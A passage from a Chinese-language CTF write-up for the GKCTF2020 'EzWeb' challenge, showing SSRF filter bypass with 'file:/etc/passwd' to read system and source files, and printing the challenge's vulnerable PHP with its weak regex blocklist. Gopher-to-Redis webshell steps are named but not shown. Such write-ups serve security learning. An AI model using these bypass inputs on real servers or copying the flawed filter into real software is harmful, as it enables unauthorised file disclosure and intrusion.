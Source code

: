 隔一会儿访问/flag.hint就有flag：

![img](https://raw.githubusercontents.com/Anthem-whisper/imgbed/master/img/20210120171423.png)

 

 

 

### [EZ三剑客-EzWeb](https://buuoj.cn/challenges#[GKCTF2020]EZ三剑客-EzWeb)

考点：SSRF，file关键字绕过，gopher协议打redis未授权，redis写webshell

SSRF学习链接>>https://hackmd.io/@Lhaihai/H1B8PJ9hX

打开是一个提交URL的页面，输入127.0.0.1会回显"别这样"，盲猜SSRF；

 

#### 利用file协议尝试读取本机文件

```
file:///etc/passwd
```

回显"别这样"；

可以利用 `file:/etc/passwd` 绕过

读取index源码：

```
file:/var/www/html/index.php
```

得到：

```
function curl($url){  
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_HEADER, 0);
    echo curl_exec($ch);
    curl_close($ch);
}
 
if(isset($_GET['submit'])){
		$url = $_GET['url'];
		//echo $url."\n";
		if(preg_match('/file\:\/\/|dict|\.\.\/|127.0.0.1|localhost/is', $url,$match))
		{
			//var_dump($match);
			die('别这样');
		}
		curl($url);
}
if(isset($_GET['secret'])){
	system('ifconfig');
}
?>
```
